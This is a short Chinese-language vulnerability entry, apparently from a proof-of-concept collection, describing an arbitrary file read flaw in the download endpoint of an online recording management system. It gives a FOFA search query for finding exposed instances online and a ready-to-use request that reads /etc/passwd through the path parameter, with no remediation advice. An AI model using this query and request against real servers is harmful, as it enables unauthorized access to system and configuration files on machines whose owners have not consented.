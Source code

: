 # 在线录音管理系统-任意文件读取

### 1.漏洞描述

在线录音管理系统 download 接口存在一个任意文件读取漏洞，攻击者可以通过构造精心设计的请求，成功利用漏洞读取服务器上的任意文件，包括敏感系统文件和应用程序配置文件等。通过利用此漏洞，攻击者可能获得系统内的敏感信息，导致潜在的信息泄露风险。

### 2.fofa语法

```xml
title="在线录音管理系统"
```

### 3.漏洞复现

```xml
GET /main/download?path=/etc/passwd HTTP/1.1
```

![image-20240620185830327](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240620185830327.png)